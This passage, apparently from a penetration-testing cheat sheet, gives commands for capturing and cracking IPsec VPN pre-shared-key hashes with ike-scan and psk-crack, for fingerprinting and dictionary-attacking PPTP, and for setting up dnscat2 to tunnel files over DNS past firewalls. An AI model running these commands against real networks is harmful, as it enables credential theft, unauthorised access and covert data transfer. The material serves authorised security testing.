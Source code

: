 ##### Step 3: Use ike-scan to capture the PSK hash

```
ike-scan –M –A –n example_group -P hash-file.txt TARGET-IP
```

##### Step 4: Use psk-crack to crack the PSK hash

```
psk-crack hash-file.txt
```

Some more advanced psk-crack options below:

```
pskcrack
psk-crack -b 5 TARGET-IPkey
psk-crack -b 5 --charset="01233456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz" 192-168-207-134key
psk-crack -d /path/to/dictionary-file TARGET-IP-key
```

#### PPTP Hacking

Identifying PPTP, it listens on TCP: 1723

##### NMAP PPTP Fingerprint:

```
nmap –Pn -sV -p 1723 TARGET(S)
```

##### PPTP Dictionary Attack

```
thc-pptp-bruter -u hansolo -W -w /usr/share/wordlists/nmap.lst
```

### DNS Tunneling

Tunneling data over DNS to bypass firewalls.

dnscat2 supports “download” and “upload” commands for getting files (data and programs) to and from the target machine.

#### Attacking Machine

Installtion:

```
apt-get update
apt-get -y install ruby-dev git make g++
gem install bundler
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install
```

Run dnscat2:
